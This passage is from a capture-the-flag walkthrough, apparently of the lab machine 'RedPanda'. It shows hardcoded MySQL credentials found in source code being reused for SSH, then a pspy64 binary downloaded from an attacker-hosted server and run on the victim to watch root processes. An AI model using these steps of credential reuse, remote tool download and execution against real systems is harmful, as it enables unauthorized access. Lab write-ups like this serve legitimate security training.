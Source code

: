 Found stored credentials:

>conn = DriverManager.getConnection("jdbc:mysql://localhost:3306/red_panda", "`woodenk`", "`RedPandazRule`");

>Lateral Movement => SSH (woodenk)

### Lateral Movement

#### SSH (woodenk)

	ssh woodenk@10.10.11.170

```shell-session
woodenk@10.10.11.170's password: RedPandazRule
woodenk@redpanda:~$
```

#### Spy processes

Attacker:

	python3 -m http.server 80

Victim:

	wget <attacker_ip>/pspy64
	chmod +x pspy64
	./pspy64

root runs `cleanup.sh` as woodenk:

```shell-session
     ██▓███    ██████  ██▓███ ▓██   ██▓
    ▓██░  ██▒▒██    ▒ ▓██░  ██▒▒██  ██▒
    ▓██░ ██▓▒░ ▓██▄   ▓██░ ██▓▒ ▒██ ██░
    ▒██▄█▓▒ ▒  ▒   ██▒▒██▄█▓▒ ▒ ░ ▐██▓░
    ▒██▒ ░  ░▒██████▒▒▒██▒ ░  ░ ░ ██▒▓░
    ▒▓▒░ ░  ░▒ ▒▓▒ ▒ ░▒▓▒░ ░  ░  ██▒▒▒ 
    ░▒ ░     ░ ░▒  ░ ░░▒ ░     ▓██ ░▒░ 
    ░░       ░  ░  ░  ░░       ▒ ▒ ░░  
                   ░           ░ ░     
                               ░ ░
CMD: UID=113  PID=914    | /usr/sbin/mysqld
CMD: UID=1000 PID=882    | java -jar /opt/panda_search/target/panda_search-0.0.1-SNAPSHOT.jar

CMD: UID=0    PID=22536  | /bin/sh -c sudo -u woodenk /opt/cleanup.sh
CMD: UID=1000 PID=22543  | /bin/bash /opt/cleanup.sh 
CMD: UID=1000 PID=22544  | /usr/bin/find /var/tmp -name *.xml -exec rm -rf {} ; 
CMD: UID=1000 PID=22563  | /usr/bin/find /var/tmp -name *.jpg -exec rm -rf {} ;
CMD: UID=1000 PID=22555  | /usr/bin/find /home/woodenk -name *.xml -exec rm -rf {} ; 
CMD: UID=1000 PID=22565  | /usr/bin/find /home/woodenk -name *.jpg -exec rm -rf {} ;
```

>The `xml` and `jpg` file types being deleted look like a clue hinting towards privilege escalation.
